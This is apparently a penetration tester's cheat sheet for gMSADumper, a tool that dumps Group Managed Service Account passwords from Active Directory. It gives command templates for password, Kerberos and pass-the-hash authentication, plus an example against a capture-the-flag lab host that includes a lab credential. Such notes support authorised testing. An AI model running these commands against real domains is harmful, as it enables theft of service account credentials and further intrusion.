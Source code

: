 # gmsadumper

% Active directory, password, ReadGMSAPassword, Group managed service accounts 
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  

## get passwords

https://github.com/micahvandeusen/gMSADumper
Example: gMSADumper.py -u tiffany.molina -p NewIntelligenceCorpUser9876 -l 10.10.10.248  -d intelligence.htb

```
gmsadumper -u <user> -p <password> -l <dc_fqdn> -d <domain_fqdn> 
```

## get passwords (kerberos auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -k -l <dc_fqdn> -d <domain_fqdn> 
```

## get passwords (PtH auth)

https://github.com/micahvandeusen/gMSADumper

```
gmsadumper -u <user> -p <nt_hash> -l <dc_fqdn> -d <domain_fqdn> 
```

